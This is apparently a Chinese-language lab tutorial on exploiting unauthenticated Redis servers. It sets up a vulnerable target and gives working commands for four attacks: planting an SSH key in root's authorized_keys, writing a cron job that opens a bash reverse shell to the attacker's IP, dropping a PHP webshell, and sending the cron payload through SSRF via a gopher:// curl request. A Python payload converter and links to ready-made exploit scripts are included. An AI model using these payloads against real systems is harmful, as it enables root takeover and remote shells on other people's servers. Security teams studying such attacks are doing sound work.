

# Redis未授权访问

## About Redis

### 简介

redis是一种key-value键值对的非关系型数据库，默认运行在6379端口

它启动时不会像apache一样，以一种www-data低权限身份运行。而是以运行者的身份，例如用root权限直接运行redis时，redis的权限就是root权限

其次它的默认配置是无需密码的，也就造成了默认的未授权访问

redis还支持本地存储，也就导致了任意文件写入。从而可以写入私钥，利用私钥直接ssh登录服务器。


### 一些常用命令

连接redis

```
redis-cli -h 192.168.85.132
```

查看版本信息

```
192.168.85.132:6379>info
```

查看键为x的值

```
192.168.85.132:6379>get x
```

查看所有键

```
192.168.85.132:6379>keys *
```

设置x的值为test

```
192.168.85.132:6379>set x "test"
```

删除所有键

```
192.168.85.132:6379>flushall
```

设置redis本地存储的文件夹和文件名

```
192.168.85.132:6379>config set dir /root/.ssh 
192.168.85.132:6379>config set dbfilename authorized_keys
```


## 漏洞环境搭建

### 攻击机

操作系统：ubuntu 16.04

ip ：192.168.85.128


安装redis

```
sudo apt-get update
sudo apt-get install redis-server
```

### 靶机

操作系统： centos 6.5

ip ：192.168.85.132


下载编译redis

```
wget http://download.redis.io/releases/redis-3.2.0.tar.gz
tar xzvf redis-3.2.0.tar.gz
cd redis-3.2.0
make
```


修改下配置文件，不然默认虽然是无密码，但是会有protected模式，导致无法从外部主机连接

```
vim redis.conf
```

bind 127.0.0.1前面加上#号   protected-mode设为no 


启动redis

```
./src/redis-server redis.conf
```


## 写入ssh-keygen公钥

现在下先在本地生成一对密钥

```
kingkk@ubuntu:~/.ssh$ ssh-keygen -t rsa
```

这样就可以在~/.ssh目录下生成一对`id_rsa`、` id_rsa.pub `


然后连接靶机redis

```
kingkk@ubuntu:~/test/redis$ redis-cli -h 192.168.85.132           # 连接靶机
192.168.85.132:6379> config set dir /root/.ssh                    # 设置本地存储文件目录
OK
192.168.85.132:6379> config set dbfilename authorized_keys        # 设置本地存储文件名
OK
192.168.85.132:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCjFdA5iENqT7mVAv3kopJZi0jtaDbXq2VwX7AM4Gk8wkAgBjnNGuxP0Tt5Sz0sQY1brgP7pmtTCeXUhPS33qK9RWXHNNuAAnns3c5nTtEuKvZtE+5aFDiVvyjDBhvR9YfzQFc+MgCDNedF6Fe+tzSPxDvqk5hGUoqEgwQS0NQNEIN93qN/qEiCXrUMacy6JS6fa2AC99JO+0LdVB0yMPgW2neJZSoJOYdFdJiW4XSn94aUf/mHmZQbT2VxNHv1nEspyhssTaNzDrBAE60hL91Q+CEO2ir2sSZ95xwJXJQJbeD1HyyiAhwg/ajoBafT45Ae5BjY+cH9a8gCpzXu8Tp7 kingkk@ubuntu\n\n\n"                                  		                           # 设置一个值为id_rsa.pub公钥值
OK
192.168.85.132:6379> save                                         # 存储数据
OK
```


这样，我们就把公钥写入对方的服务器了，直接用生成的私钥连接即可

```
kingkk@ubuntu:~/.ssh$ ssh -i id_rsa root@192.168.85.132
Last login: Sun Mar 11 03:50:15 2018 from 172.22.224.117
[root@localhost ~]# id
uid=0(root) gid=0(root) 组=0(root) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
You have new mail in /var/spool/mail/root
```


假如报了如下错误

```
sign_and_send_pubkey: signing failed: agent refused operation
```

运行下如下两句即可

```
eval "$(ssh-agent -s)"
ssh-add
```


## 利用计划任务反弹shell

先开一个终端监听本地的23333端口

```
nc -nlvp 23333
```

利用之前类似的文件写入，写入定时命令

```
192.168.85.132:6379> set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.85.128/23333 0<&1 2>&1\n"
OK
192.168.85.132:6379> config set dir /var/spool/cron/
OK
192.168.85.132:6379> config set dbfilename root
OK
192.168.85.132:6379> save
OK
```

需要等待一会，一般一分钟之内吧，nc就能收到反弹回来的shell了


## 写入webshell

当redis权限较低，上面两种方法都行不通的时候，可以尝试往web服务中写入一句话，获取webshell

```
192.168.85.132:6379> set x "<?php phpinfo();?>"
OK
192.168.85.132:6379> config set dir /var/www/html
OK
192.168.85.132:6379> config set dbfilename shell.php
OK
192.168.85.132:6379> save
OK
```

这样，就能在根目录下生成shell.php。访问一下


# 结合SSRF

之前能看到，默认情况下虽然是没有密码，但是会开启`protected`保护模式

在这情况下，我们尝试连接一下对方redis

```
kingkk@ubuntu:~/test/redis$ redis-cli -h 192.168.85.132
192.168.85.132:6379> info
DENIED Redis is running in protected mode because protected mode is enabled, no bind address was specified, no authentication password is requested to clients. In this mode connections are only accepted from the loopback interface. If you want to connect from external computers to Redis you may adopt one of the following solutions: 1) Just disable protected mode sending the command 'CONFIG SET protected-mode no' from the loopback interface by connecting to Redis from the same host the server is running, however MAKE SURE Redis is not publicly accessible from internet if you do so. Use CONFIG REWRITE to make this change permanent. 2) Alternatively you can just disable the protected mode by editing the Redis configuration file, and setting the protected mode option to 'no', and then restarting the server. 3) If you started the server manually just for testing, restart it with the '--protected-mode no' option. 4) Setup a bind address or an authentication password. NOTE: You only need to do one of the above things in order for the server to start accepting connections from the outside.
```


可以看到保护模式拒绝了redis的远程连接，所以经常redis都是配合着ssrf这个可以伪造身份的攻击方式一起进行攻击


## gopher协议

> Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议。当然现在 Gopher 协议已经慢慢淡出历史。  Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。 

可以利用gopher协议传输redis的数据报文，达到类似之前对redis的连接、设置、存储操作

## 抓取数据报文

在靶机中利用socat抓取发往redis的数据报文

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379
```


在攻击机中连接靶机的4444端口，重新发送攻击payload

这里先将要执行的命令写入了shell.sh中，方便一次性执行完毕

```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

然后在把靶机中执行

```
./shell.sh 192.168.85.132 4444
```

返回五个OK就表示执行成功了

然后就能看到靶机中接受到的数据流了


然后将这些数据流复制下来，需要将数据流中的`127.0.0.1/2333`转化成所需要的ip地址和端口

同时需要修改`$61\r`中的61数字，表示数据的长度

如我这里需要改成`192.168.85.128/23333`比原先多了6个字符串就是`$67\r`

## 利用gopher进行攻击

然后将数据转换成gopher协议的格式

```
#coding: utf-8
import sys

exp = ''

with open(sys.argv[1]) as f:
    for line in f.readlines():
        if line[0] in '><+':
            continue
        elif line[-3:-1] == r'\r':
            if len(line) == 3:
                exp = exp + '%0a%0d%0a'
            else:
                line = line.replace(r'\r', '%0d%0a')
                line = line.replace('\n', '')
                exp = exp + line
        elif line == '\x0a':
            exp = exp + '%0a'
        else:
            line = line.replace('\n', '')
            exp = exp + line
print exp
```


然后在本地先监听23333端口

再利用curl发送payload

```
curl -v 'gopher://192.168.85.132:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$67%0d%0a-e %0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.85.128/23333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

等待一会，就能看到nc接到了反弹回来的shell


在php中的ssrf的话需要安装gopher协议拓展，就可以达到一样的效果。


# 自动化利用

我将之前的三种利用方式都写成了.sh的脚本形式，方便使用,只需本地要提前安装好redis

https://github.com/kingkaki/Exploit-scripts/tree/master/redis 还包含了socat捕获的流量报文样例

## 演示



## 脚本

### shell.sh

用法

```
./shell.sh [redis-ip] [redis端口] [接收shell的ip]
```

默认端口为23333

### ssh.sh

用法

```
./ssh.sh [redis-ip] [redis端口]
```

要提前在本地`.ssh`目录用`ssh-keygen -t rsa`生成一对密钥

然后用私钥登录即可


### webshell.sh

用法

```
./webshell.sh [redis-ip] [redis端口]
```

会在`/var/www/html`目录下生成shell.php一句话，默认密码redis


## 一些问题

由于`flushall`破坏性太大，没写入脚本中。

在原先存在一些数据的时候会影响成功率，需要的话可以自行添加


# Reference Link

http://p0sec.net/index.php/archives/69/

https://xz.aliyun.com/t/1800#toc-2

https://joychou.org/web/hackredis-enhanced-edition-script.html#directory092928099425939341

https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2

